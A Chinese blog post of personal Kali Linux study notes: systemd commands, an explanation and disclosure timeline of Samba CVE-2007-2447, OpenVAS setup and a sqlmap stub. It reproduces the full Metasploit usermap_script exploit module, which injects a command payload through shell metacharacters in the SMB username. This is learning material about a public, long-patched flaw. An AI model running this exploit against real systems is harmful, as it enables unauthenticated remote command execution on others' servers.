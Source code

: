 ```yaml
---
layout: post
title: "kali-linux-note"
date: 2017-10-17 11:56:10
image: 'kali-Linux-Destop.jpg'
description: 关于学习kali-Linux的笔记
category: '计算机'
tags:
- 计算机技术
twitter_text: 关于学习kali-Linux的笔记
introduction: 关于学习kali-Linux的笔记
color: '4A3341'
author: 夜雨
---
```


### Systemd

Systemd是一种新的linux系统服务管理器。它替换了init系统，能够管理系统的启动过程和一些系统服务，一旦启动起来，就将监管整个系统。

- 切换至字符界面
  ```sudo systemctl set-default multi-user.target```
- 切换至图形界面
  ```sudo systemctlset-default graphical.target```
- 打开图形界面
  ```sudo init 5```
### Metasploit
#### usermap_script 漏洞相关笔记
- usermap_script：CVE-2007-2447
>利用Samba用户名映射脚本命令执行
>这个模块利用漏洞执行命令，在Samba版本3.0.20到3.0.25rc3当使用非默认用户名映射脚本配置选项。 
>通过指定一个用户名包含shell元字符,攻击者可以执行任意命令。 
>不需要身份验证来利用此漏洞，因为此选项用于在身份验证之前映射用户名
>模块的位置 exploit/multi/samba/usermap_script
>用户输入未转义的参数作为参数传递到/bin/sh，允许远程命令执行
>此漏洞最初是针对匿名呼叫报告的
> 经过Samba开发者的进一步调查，结果是确定了问题更广泛和影响远程打印机和文件共享管理。 根本原因是传递通过MS-RPC提供的未过滤的用户输入在调用定义的外部脚本时调用/bin/sh，在smb.conf中。 
> 然而，不同于"username map script"漏洞，远程文件和打印机管理脚本需要经过身份验证的用户会话。
>
> 漏洞的时间线：
>
>  1. 2007年5月7日：漏洞匿名披露到security@samba.org电子邮件列表中。
>  2. 2007年5月7日：Samba的开发人员Gerald Carter开始响应这个漏洞。
>  3. 2007年5月9日：Samba的开发者Jeremy Allison发布了补丁，用于iDefense测试。
>  4. 2007年5月10日：向vendor-sec邮件列表发布通知。
>  5. 2007年5月14日：公开漏洞信息。

```
##
# $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/framework/
##

# 这个和Python的import还要C的include一样的作用
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
# Metasploit3是从Msf::Exploit::Remote中继承的

    Rank = ExcellentRanking

    include Msf::Exploit::Remote::SMB

    # For our customized version of session_setup_ntlmv1
    CONST = Rex::Proto::SMB::Constants
    CRYPT = Rex::Proto::SMB::Crypt

    def initialize(info = {})
        super(update_info(info,
            'Name'           => 'Samba "username map script" Command Execution',
            'Description'    => %q{
                    This module exploits a command execution vulerability in Samba
                versions 3.0.20 through 3.0.25rc3 when using the non-default
                "username map script" configuration option. By specifying a username
                containing shell meta characters, attackers can execute arbitrary
                commands.

                No authentication is needed to exploit this vulnerability since
                this option is used to map usernames prior to authentication!
            },
            'Author'         => [ 'jduck' ],
            'License'        => MSF_LICENSE,
            'Version'        => '$Revision: 10040 $',
            'References'     =>
                [
                    [ 'CVE', '2007-2447' ],
                    [ 'OSVDB', '34700' ],
                    [ 'BID', '23972' ],
                    [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
                    [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
                ],
            'Platform'       => ['unix'],
            'Arch'           => ARCH_CMD,
            'Privileged'     => true, # root or nobody user
            'Payload'        =>
                {
                    'Space'    => 1024,
                    'DisableNops' => true,
                    'Compat'      =>
                        {
                            'PayloadType' => 'cmd',
                            # *_perl and *_ruby work if they are installed
                            # mileage may vary from system to system..
                        }
                },
            'Targets'        =>
                [
                    [ "Automatic", { } ]
                ],
            'DefaultTarget'  => 0,
            'DisclosureDate' => 'May 14 2007'))

        register_options(
            [
                Opt::RPORT(139)
            ], self.class)
    end


    def exploit

        connect

        # lol?
        username = "/=`nohup " + payload.encoded + "`"
        begin
            simple.client.negotiate(false)
            simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
        rescue ::Timeout::Error, XCEPT::LoginError
            # nothing, it either worked or it didn't ;)
        end

        handler
    end

end
```
### OpenVas安装

```shell
sudo apt-get install openvas
sudo openvas-setup
```

安装过程中，会被询问关于redis的问题，选择默认选项来以Unix套接字运行。

即使是有快速的网络连接，openvas-setup 仍需要很长时间来下载和更新所有所需的 CVE、SCAP 定义。

请注意 openvas-setup 的命令输出，密码会在安装过程中生成，并在安装的最后在控制台中打印出来。

验证 openvas 正在运行:

`netstat -tulpn`

在 Kali 中启动 OpenVAS：

`openvas-start`

安装后，你应该可以通过 `https://127.0.0.1:9392` 访问 OpenVAS 的 web 程序了。

接受自签名证书，并使用 openvas-setup 输出的 admin 凭证和密码登录程序。

接受自签名证书后，你应该可以看到登录界面了。

### linux命令之ubuntu 重启网络服务而不需重启
```sudo /etc/init.d/networking restart```

## sqlmap学习笔记

```shell
sqlmap -u URL [options]
```

